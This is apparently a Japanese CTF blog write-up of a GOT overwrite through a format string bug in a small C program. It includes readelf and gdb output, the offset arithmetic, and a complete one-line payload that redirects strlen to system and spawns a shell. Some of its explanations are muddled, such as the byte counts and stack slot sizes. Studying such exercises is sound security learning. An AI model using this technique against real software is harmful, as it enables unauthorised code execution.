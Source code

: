 ```yaml
---
layout: post
title: got overrite
date: 2017-04-21 11:42:35
categories: ctf
---
```

# GOT Overwrite

```
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
  char str[128];
  fgets(str, 128, stdin);
  printf(str);

  fgets(str, 128, stdin);
  printf("%d\n", strlen(str));
  return 0;
}
```

## 方針

1. printf()でGOTOverWriteをして、strlen()関数をsystem関数に書き換える。
2. 2度目のfgets()でsystem関数の引数を設定
3. strlen(str)でシェルを起動

### GOT領域のアドレスを調べる
```
% readelf -r got

Relocation section '.rel.dyn' at offset 0x31c contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
0804a040  00000805 R_386_COPY        0804a040   stdin@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x32c contains 5 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   fgets@GLIBC_2.0
0804a014  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a018  00000507 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```
より、
`0804a018  00000507 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0`

### system関数のアドレスを調べる

```
kobad@kobad-virtual-machine ~/pwn> gdb -q got
Voltron loaded.
Reading symbols from got...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x80484f9
gdb-peda$ r
Starting program: /home/kobad/pwn/got
Breakpoint 1, 0x080484f9 in main ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e41940 <system>

```

より、`0xf7e41940 <system>`

### %nフォーマット指定子

printfが出力している文字数をメモリに書き込む

* %n   - 4 byte
* %hn  - 2 byte
* %hhn - 1 byte

`%n$s` - (スタックの?)n番目の値を%s型で表示

## 解答
strlen = 0x0804a018

system = 0xf7e41940

0x0804a018 - 0x0804a019 にsystemの下位4byte

0x0804a01a - 0x0804a01b にsystemの上位4byteを書き込む

0x1940 = 6464 で\x18\xa0\x04\x08\x1a\xa0\x04\x08この分の8byteを引く

0x1940 - 0x08 = 6456

0xf7e4 = 63460 で0x1940を引く

0xf7e4 - 0x1940 = 56996

スタックには8byteずつ積まれていくので、
最初の8byte(\x18\xa0\x04\x08) が11番目

次の8byte(\x1a\xa0\x04\x08) が12番目

11番目の0x0804a018に0xa1940を書き込み(0x0804a018 == 0xa1940ってこと？)、
12番目の0x0804a01aに0xf7e4を書き込む。

これでstrlenがsystem関数に書き換わった。

\nで次のfgets()へいき、/bin/shを与えて、
strlen(/bin/sh) == system(/bin/sh)なのでshellが起動する

`(echo -e '\x18\xa0\x04\x08\x1a\xa0\x04\x08%6456x%11$hn%56996x%12$hn\n/bin/sh'; cat) | ./got `
